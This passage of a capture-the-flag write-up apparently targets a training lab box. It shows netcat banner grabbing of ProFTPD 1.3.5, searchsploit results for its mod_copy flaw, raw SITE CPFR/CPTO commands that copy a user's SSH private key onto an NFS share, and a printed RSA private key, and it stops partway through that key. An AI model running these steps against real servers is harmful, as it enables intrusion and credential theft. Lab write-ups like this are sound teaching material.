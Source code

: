 This scan revealed that the /var directory was shared over NFS.

## ProFTPD Exploitation

At this point, I turned my attention to **ProFTPD**, an FTP server known for certain vulnerabilities, and using netcat I discovered its version.

```bash
root@ip-10-10-216-44:~/workspace# nc 10.10.253.8 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.8]
```

A search on **searchsploit** revealed that ProFTPD 1.3.5 is vulnerable to a remote command execution vulnerability via its mod_copy module.

```bash
root@ip-10-10-216-44:~/workspace# searchsploit proftpd 1.3.5
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                         |  Path
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                              | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                    | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                              | linux/remote/36742.txt
--------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Basically the SITE CPFR and SITE CPTO commands can be used to copy files/directories from one place to another on the server.  
Leveraging these commands and the previous information about kenobi's ssh keys I copied the SSH private key from Kenobi's home directory to /var/tmp, where I could access it via the NFS share.

```bash
root@ip-10-10-216-44:~/workspace# nc 10.10.253.8 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.8]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

```bash
root@ip-10-10-216-44:~/workspace# mkdir /mnt/kenobiNFS
root@ip-10-10-216-44:~/workspace# mount 10.10.253.8:/var /mnt/kenobiNFS
root@ip-10-10-216-44:~/workspace# cat /mnt/kenobiNFS/tmp/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
```